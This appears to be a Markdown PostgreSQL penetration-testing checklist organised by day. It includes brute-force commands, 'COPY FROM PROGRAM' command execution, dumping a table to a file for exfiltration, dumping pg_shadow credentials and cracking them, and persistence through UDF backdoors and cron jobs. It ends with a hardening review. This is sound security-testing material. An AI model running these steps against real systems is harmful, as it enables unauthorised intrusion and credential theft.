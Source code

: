 # ✅ PostgreSQL Pentest Extended Checklist

## Day 1 — Recon & Enumeration
- [ ] Run service discovery:  
  ```bash
  nmap -sV -sC -p 5432 <target>
  nmap --script pgsql-brute,pgsql-databases,pgsql-info -p 5432 <target>
  ```
- [ ] Grab banner (detect version/OS info):  
  ```bash
  nc <target> 5432
  ```
- [ ] Check if SSL/TLS enforced:  
  ```bash
  openssl s_client -starttls postgres -connect <target>:5432
  ```
- [ ] Verify pg_hba.conf exposure (via error messages).  
- [ ] Attempt connection without creds (trust/ident auth misconfig).  
- [ ] Brute-force attack if allowed:  
  ```bash
  hydra -L users.txt -P pass.txt postgres://<target>/postgres
  ```

## Day 2 — Authenticated Enumeration
- [ ] Connect with valid creds:  
  ```bash
  psql -h <target> -U <user> -d <dbname>
  ```
- [ ] Enumerate databases: `\l`  
- [ ] Enumerate roles & attributes: `\du+`  
- [ ] Enumerate active connections:  
  ```sql
  SELECT * FROM pg_stat_activity;
  ```
- [ ] Enumerate installed extensions: `\dx`  
- [ ] Check version & build:  
  ```sql
  SELECT version();
  SHOW server_version;
  ```
- [ ] Check password encryption:  
  ```sql
  SHOW password_encryption;
  ```
- [ ] Review logging configuration:  
  ```sql
  SHOW logging_collector;
  SHOW log_statement;
  ```

## Day 3 — Exploitation
- [ ] Test command execution (if superuser):  
  ```sql
  COPY cmd_exec FROM PROGRAM 'id';
  ```
- [ ] File read/write (priv esc / persistence):  
  ```sql
  COPY (SELECT 'test') TO '/tmp/test.txt';
  ```
- [ ] Exfiltrate data via file:  
  ```sql
  COPY (SELECT * FROM sensitive_table) TO '/tmp/exfil.csv' WITH CSV;
  ```
- [ ] Test UDF loading (custom C functions).  
- [ ] Abuse untrusted procedural languages (plperl, plpythonu).  
- [ ] Check if `COPY FROM STDIN` can be abused for data injection.  

## Day 4 — Privilege Escalation
- [ ] Check role inheritance:  
  ```sql
  SELECT rolname, rolsuper, rolcreaterole, rolinherit FROM pg_roles;
  ```
- [ ] Attempt role chaining:  
  ```sql
  SET ROLE <target_role>;
  ```
- [ ] Check for PUBLIC grants:  
  ```sql
  \du
  \z
  ```
- [ ] Test `dblink` extension for lateral movement.  
- [ ] Check for writable config files (alter system):  
  ```sql
  ALTER SYSTEM SET log_statement = 'all';
  ```
- [ ] Verify `pgcrypto` usage (weak crypto).  

## Day 5 — Post-Exploitation & Hardening Review
- [ ] Establish persistence (UDF backdoor, cron jobs, file drops).  
- [ ] Dump all credentials:  
  ```sql
  SELECT usename, passwd FROM pg_shadow;
  ```
- [ ] Check password hashes type (MD5 vs SCRAM-SHA-256).  
- [ ] Attempt cracking with `hashcat` if MD5.  
- [ ] Audit for CVEs matching version.  
- [ ] Review configs:  
  - [ ] `listen_addresses` restricted.  
  - [ ] SSL/TLS enforced.  
  - [ ] Remote connections limited in `pg_hba.conf`.  
  - [ ] Remove unnecessary superusers.  
  - [ ] Disable unsafe extensions.  
  - [ ] Enable `pg_audit` / `log_statement`.  
